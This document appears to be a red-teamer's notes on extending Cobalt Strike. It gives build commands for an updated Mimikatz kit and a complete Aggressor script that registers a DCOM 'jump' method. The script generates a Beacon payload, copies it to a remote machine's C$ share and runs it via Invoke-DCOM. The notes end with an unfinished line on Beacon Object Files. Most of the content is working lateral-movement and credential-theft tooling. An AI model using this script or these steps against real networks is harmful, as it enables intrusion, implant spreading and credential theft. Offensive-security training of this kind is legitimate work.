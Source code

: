 # Extending Cobalt Strike Notes

## Mimikatz kit

CS is loaded with older mimikatz so we need to update with the bundles they have
in windows wsl
```
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/mimikatz
./build.sh /mnt/c/Tools/cobaltstrike/mimikatz
```

Load mimikatz.cna via the Cobalt Strike > Script Manager menu and clicking the Load button

## Jump and Remote-Exec

in this example we'll integrat Invoke-DCOM.ps1 into jump
create new text file in visual studio and save as dcom.cnd, and put this in
```
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName  $+  $2  $+  -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Make sure to load the script via the Script Manger (Cobalt Strike > Script Manager).

## Beacon Object Files

Beacon Object Files (BOFs) are a post-ex capability that allows for code execution inside the Beacon host process




